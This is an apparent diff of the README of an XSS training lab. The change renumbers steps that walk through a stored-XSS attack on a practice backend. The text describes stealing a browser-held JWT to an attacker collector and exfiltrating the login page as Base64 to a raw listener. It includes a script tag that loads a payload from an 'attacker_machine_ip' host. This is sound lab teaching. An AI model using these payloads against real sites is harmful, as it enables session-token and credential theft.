

Before and after one commit to hipoloco/xsslab, a Markdown page: README.md, 3 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/README.md
+++ b/README.md
@@ -330,9 +386,9 @@ Expected on the attacker machine:
 - one incoming `GET /collect`
 - the query string contains `jwt=eyJ...`
 
-This proves that the internal backend is not only vulnerable to stored XSS, but also that its browser-held credential can be stolen.
+This proves that the internal backend is not only vulnerable to stored XSS, but also that its browser-held credential can be stolen and isolated.
 
-### Step 10: prepare a raw listener for the next exfiltration step
+### Step 11: prepare a raw listener for the next exfiltration step
 
 For the next step you want to receive a `POST` body manually, without using the bundled collector yet.
 
@@ -354,7 +410,7 @@ Expected:
 - when the XSS fires, you will see the full HTTP request
 - the request body will contain the Base64-encoded HTML
 
-### Step 11: exfiltrate the front page of `backend.cross.fit`
+### Step 12: exfiltrate the front page of `backend.cross.fit`
 
 Now use the XSS to request `/` from the same origin and send the returned HTML to the attacker listener.
 
@@ -450,7 +506,7 @@ If you need another port or path for the receiver, you can pass it in the script
 <script src="http://attacker_machine_ip:8000/tools/payload-frontpage-login.js?collectPort=9000&collectPath=/internal-html"></script>
 ```
 
-### Step 12: wait for the worker and inspect the raw HTTP request
+### Step 13: wait for the worker and inspect the raw HTTP request
 
 As before, the worker will render the stored message from `/admin/messages/next`.
 
@@ -461,7 +517,7 @@ Expected in the attacker terminal:
 - a blank line
 - the raw Base64 body at the end of the request
 
-### Step 13: decode the Base64 manually and save it as HTML
+### Step 14: decode the Base64 manually and save it as HTML
 
 Copy only the request body, that is, the Base64 content after the blank line, and decode it:
 
@@ -481,7 +537,7 @@ Or inspect it directly:
 rg -n "<title>|<form|username|password" backend-frontpage.html
 ```
 
-### Step 14: validate the expected result
+### Step 15: validate the expected result
 
 The decoded HTML should correspond to the login page of `backend.cross.fit`.
 
````
Also changed, not shown: other parts of README.md (+111 -6 lines).
